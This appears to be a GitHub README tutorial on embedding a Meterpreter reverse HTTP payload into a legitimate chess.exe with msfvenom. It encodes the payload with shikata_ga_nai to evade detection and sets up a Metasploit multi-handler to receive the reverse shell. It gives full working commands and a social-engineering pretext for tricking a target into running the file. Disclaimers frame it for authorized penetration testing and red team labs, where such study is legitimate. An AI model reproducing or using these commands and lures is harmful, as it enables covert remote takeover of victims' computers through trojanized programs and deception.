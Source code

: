 # 🧨 Creating Malicious File with Msfvenom

This guide demonstrates how to embed a Meterpreter reverse HTTP payload into a Windows `.exe` file using `msfvenom`, then set up a Metasploit multi-handler to receive the reverse shell. This method is commonly used in red team labs and ethical hacking environments.

⚠️ WARNING: This guide is for educational and authorized penetration testing purposes only. Never use these techniques on systems without explicit permission.

---

## 📦 Requirements

- Kali Linux or any OS with:
  - `msfvenom`
  - `metasploit-framework`
- A legitimate 32-bit Windows executable (e.g., `chess.exe`)
- Your IP address on the local network (e.g., `192.168.0.114`)

---

## 🚀 Step 1: Create Malicious Payload

We will embed the payload into a legitimate `chess.exe` file and encode it using the `shikata_ga_nai` encoder for basic obfuscation.

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.114 LPORT=80 \
-x /root/chess.exe -e x86/shikata_ga_nai -i 10 -f exe -o newchess.exe
```

### Payload Breakdown

- `-p windows/meterpreter/reverse_http`: 32-bit reverse HTTP Meterpreter payload  
- `LHOST`: Attacker's IP address  
- `LPORT`: Port to listen on  
- `-x /root/chess.exe`: Template legitimate executable  
- `-e x86/shikata_ga_nai`: Encoder to obfuscate payload  
- `-i 10`: Encode 10 times  
- `-f exe`: Output format  
- `-o newchess.exe`: Output file name  

After execution, `newchess.exe` will be generated. This file, when executed by the target, will initiate a reverse connection to your system.

---

## 📡 Step 2: Start Metasploit Multi-Handler

Now we need to configure the listener on your Kali system to wait for the incoming connection.

```bash
msfconsole
```

Inside the Metasploit console:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 192.168.0.114
set LPORT 80
exploit
```

⚠️ Ensure that:
- The `PAYLOAD` matches exactly the one used in `msfvenom`.
- You do not mix architectures (e.g., x86 vs x64).

---

## 🎭 Social Engineering Delivery

Disguise the payload and use a basic pretext like:

> “Hey! Let’s play this cool new 3D chess game I found.”

Send `newchess.exe` to the target using a USB drive, file-sharing service, or any method approved in your test environment.

---

## 🖥️ Result

Once the target runs the file:
- A Meterpreter session will be initiated
- You’ll have control over the victim system

---

## ⚖️ Legal Disclaimer

This guide is strictly for ethical hacking, research, and authorized security testing. Unauthorized access to systems is illegal. Always operate under a legal agreement or contract.
